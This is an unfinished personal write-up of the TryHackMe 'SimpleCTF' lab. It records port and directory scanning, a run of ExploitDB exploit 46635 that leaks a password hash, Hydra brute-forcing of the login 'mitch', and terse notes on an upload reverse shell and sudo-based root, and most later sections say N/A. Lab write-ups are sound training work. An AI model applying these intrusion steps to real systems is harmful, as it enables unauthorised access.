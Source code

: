 ## TryHackMe - SimpleCTF
> Completed 28th June  2022.

This box ended up being an interesting less than straight forward boot2root exercise. I found myself stuggling again once I needed to explore for priviledge escallation vectors.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Hydra
- ExploitDB
- Metasploit / Netcat listener

---
### Methodology
#### Objectives/Flags
1. user flag
2. root flag

---
#### Reconnaissance
Started off by scanning the target for open ports and services.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
This reavealed a web server that we can enumerate and an ssh service running on a custom port of `2222`. When navigating to the URL of the webserver we a met with a default Apache page which could hint at unconventional file structure. I loaded up `Gobuster` and got it to work scanning for directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP>/ -w <Wordlist> > <Outputfile>
```
```
//simple              (Status: 301) [Size: 313] [--> http://<TargetIP>/simple/]
```
Once we navigate to the `simple` directory, we are met with a webpage that appears be built using a CMS framework. From here set `Gobuster` up to scan the new directory as I started walking through the page-source and hyperlinks and discover an admin login portal.
```bash
gobuster dir --url http://<TargetIP>/simple -w <Wordlist> > <Outputfile>
```
```
//uploads             (Status: 301) [Size: 319] [--> http://10.10.7.140/simple/uploads/]
//admin               (Status: 301) [Size: 317] [--> http://10.10.7.140/simple/admin/]    
```

found robots.txt and revealed user `mitch`

searched up CMS framework on ExploitDB and find exploit to run
exploit required python syntax fixing. This exploit looks to use blin
```bash
python 46635.py -u http://<TargetIP>/simple/
```
```
[+] Salt for password found: 1dac0d92e9fa6bb2.
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
The exploit confirms user `mitch` is present on the target and reveals to us an admin email address. Unfortunately the exploit fails to crack the password, the error indicates to me that it might be another syntax issue but as it's beyond my  knowledge, I couldn't remediate it.


Hydra mitch
[80][http-post-form] host: 10.10.194.228   login: mitch   password: secret

find admin file upload
set up listener
run payload

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Exploit DB 46635
fix up syntax
python 46635.py -u http://10.10.78.164/simple/
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[*] Try: 0c01f4468bd75d7a84c7eb73846e8d96$
[*] Now try to crack password
Traceback (most recent call last):
  File "/home/kali/kali-tools/TryHackMe/SimpleCTF/46635.py", line 184, in <module>
    crack_password()
  File "/home/kali/kali-tools/TryHackMe/SimpleCTF/46635.py", line 53, in crack_password
    for line in dict.readlines():
  File "/usr/lib/python3.9/codecs.py", line 322, in decode
    (result, consumed) = self._buffer_decode(data, self.errors, final)
UnicodeDecodeError: 'utf-8' codec can't decode byte 0xf1 in position 933: invalid continuation byte
```

ssh into mitch
user.txt
sudo -l
vim exploit
root.txt

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
N/A

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
N/A

---
### After-action
#### What I've learned
N/A

#### What I would've done differently
N/A

> Edit: N/A
